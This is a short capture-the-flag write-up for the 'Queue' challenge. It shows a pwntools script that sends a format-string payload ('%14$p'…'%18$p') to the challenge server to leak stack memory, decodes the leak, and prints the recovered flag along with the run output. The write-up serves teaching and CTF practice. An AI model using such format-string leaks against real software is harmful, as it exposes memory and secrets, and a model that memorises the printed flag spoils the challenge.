 # Queue
`Address Leaking` `Format String`
<br>
<br>

This challenge is pretty straight forward, we can use `"%p"` to leak the value of the stack, but in order to find the real one we need to some someking of bruteforcing. After spamming `%p`, I found the start index, it was 14 and the last index is 16.

You can actually just leak it without the script I provide below and then proceed to decode it in cyberchef.

```python
from pwn import *
from binascii import unhexlify

p = remote('challs.actf.co',31322)

p.recvuntil(b'today? ')
p.sendline(b'%14$p %15$p %16$p %17$p %18$p')
p.recvuntil(b'nice, ')

a = p.recvuntil(b'\n').strip().replace(b'0x',b'').split(b' ')
print(a)

flag = b"".join(
    [
	unhexlify(a[0])[::-1],
	unhexlify(a[1])[::-1],
	unhexlify(a[2])[::-1],
	unhexlify(a[3])[::-1],
	unhexlify(a[4])[::-1],
]).decode()

print(flag)
```

If you're using this script, the output will look like this.

```
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/kiinzu/.cache/.pwntools-cache-3.11/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.9.0)
[+] Opening connection to challs.actf.co on port 31322: Done
[b'3474737b66746361', b'75715f74695f6b63', b'615f74695f657565', b'3437396461393136', b'7d32326234363863']
actf{st4ck_it_queue_it_a619ad974c864b22}
[*] Closed connection to challs.actf.co port 31322
```